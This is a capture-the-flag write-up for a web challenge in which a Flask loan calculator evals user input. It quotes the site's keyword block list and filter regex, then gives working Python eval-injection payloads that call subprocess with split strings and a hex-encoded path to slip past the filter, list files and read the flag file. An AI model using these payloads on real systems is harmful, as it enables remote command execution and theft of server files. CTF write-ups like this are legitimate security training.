





# 3v@l 🕸️

> Category: Web Exploitation 🕸️



> Hints:
>1. Bypass regex
>2. The flag file is /flag.txt
>3. You might need encoding or dynamic construction to bypass restrictions.



Basically, this site function as a bank-loan calculator. We can try to test what the output will look like



In this example, I use **5*2** which expected to be **10** as the result.



First, we need to check the source code of the challenge.

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

Breakdown of the regex:
```
1. 0x[0-9A-Fa-f]+ : Prevent user to encode data in hex (0x123...) format to bypass the regex.
2. \\u[0-9A-Fa-f]{4} : Block unicode-based (\u00..) encoding tricks.
3. %[0-9A-Fa-f]{2} : Prevents encoding characters (%2F) to bypass the regex.
4. \.[A-Za-z0-9]{1,3}\b : Blocks access to files with extension (.sh or .txt or etc).
5. [\\\/] : Block \ and /.
6. \.\. : Prevents directory traversal (../).
```
So, we need to bypass this regex.

## Solution

We know that it is a **python flask** and we need to find some payload to bypass the **eval** function.

Due to **os** has been blocked, we try to use this payload template and insert command as needed:

```
__import__('subprocess').getoutput('commmand_here')
```

First, try to check the directory by using **ls** command but change a bit to bypass the blocked keyword:

```
__import__('subprocess').getoutput('l'+'s')
```



There we go, there is an output to the changed command.

From the given hint, the flag file is **/flag.txt**.

Next, we need to view the content of the **/flag.txt**, however **/**, **.txt** and **cat** command are blocked by the regex.

But, we can try to encode the **/flag.txt** to hex using this website https://www.rapidtables.com/convert/number/ascii-to-hex.html and we get
>2F 66 6C 61 67 2E 74 78 74 

We also can try to change the **cat** command like we did before to craft our final payload as:

```python
__import__('subprocess').getoutput('c'+'at ' + bytes.fromhex('2f666c61672e747874').decode())
```

## 🏳️Flag:
> picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}